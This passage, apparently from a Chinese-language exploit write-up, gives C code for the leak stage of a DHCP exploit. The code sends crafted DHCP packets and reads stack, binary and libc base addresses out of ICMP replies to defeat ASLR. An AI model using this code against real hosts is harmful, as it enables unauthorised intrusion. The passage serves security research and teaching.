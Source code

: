 此外，在重启网卡使可能栈地址的泄露不是很稳定，要多发送几次才能成功。

顺便可以获取一下dhcp server的mac和ip地址。

```c {hide=true}
uint64_t libc_base = 0,
         elf_base = 0,
         stack_addr = 0;

void leak() {
    uint8_t *buf = NULL;
    size_t buf_len = 0;

    buf = malloc(0x1000);

    do {
        sleep(2);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_discover_packet(buf, &buf_len, src_addr_in, 0);
        send_raw_pkt(buf, buf_len);

        memset(buf, 0, 0x1000);
        do {
            buf_len = receive_raw_pkt(buf, 0x1000);
        } while (!is_icmp_echorequest(buf, buf_len));
        hex_dump64(buf, buf_len);
        stack_addr = *(uint64_t *)(buf + 0x32);
        elf_base = *(uint64_t *)(buf + 0x3a) - 0x1c168;
    } while (stack_addr < 0x7f0000000000);

    sleep(2);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_discover_packet(buf, &buf_len, src_addr_in, 1);
    send_raw_pkt(buf, buf_len);

    memset(buf, 0, 0x1000);
    do {
        buf_len = receive_raw_pkt(buf, 0x1000);
    } while (!is_icmp_echorequest(buf, buf_len));
    hex_dump64(buf, buf_len);
    libc_base = *(uint64_t *)(buf + 0x3a) - 0x9a0b1;

    server_addr_in.sin_addr.s_addr = *(uint32_t *)(buf + 0x1a);
    printf("[*] Server IP Address: %s\n", inet_ntoa(server_addr_in.sin_addr));
    memcpy(server_mac, buf + 6, ETH_ALEN);
    printf("[*] Server MAC Address: %02x:%02x:%02x:%02x:%02x:%02x\n",
           server_mac[0], server_mac[1], server_mac[2],
           server_mac[3], server_mac[4], server_mac[5]);
    
    printf("[+] leak libc_base: %p\n", (void *)libc_base);
    printf("[+] leak elf_base: %p\n", (void *)elf_base);
    printf("[+] leak stack_addr: %p\n", (void *)stack_addr);
    free(buf);
}
```
